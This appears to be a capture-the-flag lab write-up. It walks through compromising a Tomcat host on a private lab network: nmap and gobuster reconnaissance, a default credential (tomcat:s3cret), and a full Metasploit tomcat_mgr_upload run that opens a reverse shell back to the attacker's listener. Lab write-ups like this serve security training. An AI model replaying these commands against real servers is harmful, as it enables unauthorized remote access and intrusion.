

# 172.16.64.101
```
Nmap scan report for 172.16.64.101
Host is up (0.092s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f:b7:1c:3d:55:b3:9d:98:58:11:17:ef:cc:af:27:67 (RSA)
|   256 5f:b9:93:e2:ec:eb:f7:08:e4:bb:82:d0:df:b9:b1:56 (ECDSA)
|_  256 db:1f:11:ad:59:c1:3f:0c:49:3d:b0:66:10:fa:57:21 (ED25519)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache2 Ubuntu Default Page: It works
9080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Going to port 8080 returns default apache site, so lets gobuster

`gobuster dir -u http://172.16.64.101:8080 -w /opt/SecLists/Discovery/Web-Content/ApacheTomcat.fuzz.txt -r`

We find the default location of manager but get a 401 unauthorized, if we hit this in a browser we are presented with the usual 401 error


Knowing this is Tomcat, metasploit has a module to exploit an authenticated upload. But can we authenticate? Testing `tomcat:s3cret` does infact work for us on this machine. Fire up msfconsole and enter:  
``  
`` for linux x86 which we know from nmap
```
use exploit/multi/http/tomcat_mgr_upload
set TARGET 2
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword s3cret
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 172.16.64.101
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST 172.16.64.10
msf6 exploit(multi/http/tomcat_mgr_upload) > set Payload linux/x86/shell/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit
```

We set the target to 2 because from nmap we know the machine is Linux based. After a moment we get out session.
```
[*] Started reverse TCP handler on 172.16.64.10:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying QVQuNC1w3UJDtUOL7FG1aBxdZ...
[*] Executing QVQuNC1w3UJDtUOL7FG1aBxdZ...
[*] Sending stage (36 bytes) to 172.16.64.101
[*] Undeploying QVQuNC1w3UJDtUOL7FG1aBxdZ ...
[*] Command shell session 1 opened (172.16.64.10:4444 -> 172.16.64.101:33558) at 2021-08-18 10:50:32 -0400

id
uid=122(tomcat8) gid=129(tomcat8) groups=129(tomcat8)
```
At this point we can cd to /home and do an ls to see a `developer` folder we can access, going into here we see our flag.txt *`(this is different from the .182 machine because we're on the .101 box)`*